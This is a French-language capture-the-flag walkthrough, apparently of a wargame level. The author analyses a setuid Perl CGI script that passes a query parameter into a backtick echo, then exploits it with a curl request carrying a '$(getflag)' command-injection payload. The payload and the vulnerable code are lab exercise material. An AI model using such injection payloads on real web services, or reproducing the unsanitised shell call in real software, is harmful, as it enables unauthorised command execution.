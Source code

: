 Je streamline ma procédure d'identification : 

```
$ id && pwd && ls -la
uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)
/home/user/level04
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```

Et j'observe un fichier `level04.pl`.

```
$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

J'observe que c'est un script en `perl`. Je note aussi comme le précédent level, que le programme sera exécuté en tant que l'utilisateur `flag04` et que c'est une piste non-négligeable d'exploitation.

Je ne connais pas le langage `perl` mais détermine que le script tente d'importer `CGI` avec `use CGI`. Une recherche google m'amène sur le [site d'Apache](https://httpd.apache.org/docs/2.4/fr/howto/cgi.html) avec la description suivante :

```
CGI (Common Gateway Interface) définit une méthode d'interaction entre un serveur web et des programmes générateurs de contenu externes, plus souvent appelés programmes CGI ou scripts CGI. Il s'agit d'une méthode simple pour ajouter du contenu dynamique à votre site web en utilisant votre langage de programmation préféré...
```

J'estime donc que ce script va tenter d'interagir avec un serveur web à l'adresse suivante : `# localhost:4747` (ligne 2 du script `perl`).

Je me renseigne sur `perl` afin de comprendre le script, que j'ai commenté ci-dessous :

```perl
#!/usr/bin/perl
# localhost:4747 <- Most likely just a hint

# Use CGI module, importing the 'param' function. It's used to handle query parameters.
use CGI qw{param}; 

# Print the HTTP header
print "Content-type: text/html\n\n";

# Defines a 'subroutine', equivalent of a function
sub x {
  # Assigns the first arguments it receives to $y
  $y = $_[0];
  # Echoes '$y' while returning both stdout and stderr
  print `echo $y 2>&1`;
}

# Calls the subroutine 'x' defined above passing it the value of the 'x' parameter that was passed to the HTTP request
x(param("x"));
```

Il semble donc que le script ne se résume qu'à un simple `echo`. Je tente donc de l'exécuter et voir si j'arrive à appeler la subroutine `x` sans faire de requête HTTP :

```
$ ./level04.pl hello
Content-type: text/html


```

Je tente une approche qui ressemble à une requête HTTP :

```
$ ./level04.pl x=hello
Content-type: text/html

hello
```

Dans l'esprit du précédent niveau, je me demande si je peux demander un `echo getflag` puisque c'est `flag04` qui exécute le programme :

```
$ ./level04.pl x=getflag
Content-type: text/html

getflag
```

Sans succès, je tente l'approche avec '$()' :

```
$ ./level04.pl x=$(getflag)
Content-type: text/html

Check
```

Je trouve le début de la réponse de `getflag`, mais je n'obtiens que le premier mot.
J'ai un soupçon, et lance `getflag` en tant que `level04` et obtiens :

```
$ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

Il se pourrait donc que le `getflag` que je lance au travers du script `perl` soit en fait le miens, puisque le retour commence également par `Check`.

Je tente de savoir qui lance la commande :

```
$ ./level04.pl x=$(whoami)
Content-type: text/html

level04
```

D'accord. Cela signifie donc que c'est `level04` qui exécute ces commandes, pourtant le programme, comme vu au départ, à bien le `setuid` mis pour `flag04`.

D'après cette discussions :  [Can I setuid a perl script?](https://stackoverflow.com/questions/21597300/can-i-setuid-a-perl-script) le `setuid` est ignoré par les versions de `perl` > 5.12.0 :

```
$ perl --version

This is perl 5, version 14, subversion 2 (v5.14.2) built for i686-linux-gnu-thread-multi-64int
(with 57 registered patches, see perl -V for more detail)
```

Je suis sur `perl 5.14.2` et donc ne peut pas exploiter cette vulnérabilité.

Je me re-penche donc sur la partie `Apache` du contexte de ce script et tente de l'exécuter tel une requête HTTP, avec le hint donné dans le script (`localhost:4747`) :

```
$ curl 'localhost:4747/level04.pl?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```





